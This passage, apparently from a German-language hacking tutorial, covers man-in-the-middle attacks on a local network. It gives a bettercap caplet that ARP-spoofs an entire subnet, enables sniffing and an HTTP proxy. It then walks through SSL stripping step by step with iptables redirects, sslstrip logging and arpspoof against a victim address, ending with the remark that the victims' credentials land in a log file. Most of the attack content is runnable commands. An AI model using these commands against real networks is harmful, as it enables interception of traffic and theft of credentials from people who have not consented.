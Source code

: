 ```bash
# HTTP/HTTPS Sniffer
http.proxy on
https.proxy on
```

**Bettercap Caplets (Scripts):**
```bash
# Erstelle caplet
cat > /tmp/mitm.cap << 'EOF'
net.probe on
set arp.spoof.targets 192.168.1.0/24
arp.spoof on
net.sniff on
http.proxy on
EOF

# Ausführen
bettercap -iface wlan0 -caplet /tmp/mitm.cap
```

### SSL Stripping

**Problem:**
- HTTPS ist verschlüsselt
- MITM kann Inhalt nicht lesen

**SSL Strip Attack:**
1. Intercept HTTPS-Request
2. Ersetze HTTPS mit HTTP
3. Client spricht HTTP mit Angreifer
4. Angreifer spricht HTTPS mit Server
5. Angreifer sieht unverschlüsselten Traffic

#### SSL Stripping mit sslstrip

```bash
# Installiere
apt-get install sslstrip

# Setup iptables (redirect HTTPS → sslstrip)
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

# Starte sslstrip
sslstrip -l 8080 -w /tmp/sslstrip.log

# ARP Spoof (in anderem Terminal)
arpspoof -i wlan0 -t 192.168.1.50 192.168.1.1

# Victims surfen jetzt über dich
# HTTPS wird zu HTTP downgraded
# Credentials in /tmp/sslstrip.log
```

